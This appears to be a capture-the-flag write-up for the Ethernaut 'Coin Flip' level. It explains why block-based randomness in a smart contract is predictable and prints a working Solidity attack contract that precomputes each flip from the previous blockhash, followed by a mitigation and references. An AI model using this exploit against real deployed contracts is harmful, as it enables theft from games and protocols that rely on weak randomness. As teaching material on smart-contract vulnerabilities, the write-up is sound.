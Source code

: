 ```yaml
---
title: Level 3 - Coin Flip
slug: level-3
published: 05-15-2023
lastEdited:
imgSrc: /images/ethernaut/ethernaut3.svg
---
```


## Objectives

1. Correctly guess 10 coin flips in a row.

## Concepts and Vulnerabilities

### Bad source of randomness.

Relying on block information like `block.timestamp`, `block.number` and `blockhash` is a bad source of randomness that 
**can be exploited** in a multitude of ways.

In this contract, the result `flip` can be determined as we are calling it the functionw. This will 
enable us to win every round.

## Exploit

1. Write and deploy a hack contract similar to the following one:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "CoinFlip.sol";

contract CoinFlipHack {
    CoinFlip target;

    event Log(uint wins, string message);

    constructor(address _targetAddress) {
        target = CoinFlip(_targetAddress);
    }

    function getWins() public view returns(uint) {
        return target.consecutiveWins();
    }

    function cheatFlip() public{
        uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool guess = coinFlip == 1 ? true : false;
        target.flip(guess);
    }
}
```

2. Call the `cheatFlip` function 10 times in a row to win the game.

## Suggested mitigation

- Use an oracle like _Chainlink_ for a safer source of randomness.

## Further reading

- SWC-120 - Weak source of randomness Chain Attributes <ExternalLink href={"https://swcregistry.io/docs/SWC-120"} />

- Get a random number by Chainlink <ExternalLink href="https://docs.chain.link/vrf/v2/subscription/examples/get-a-random-number" />
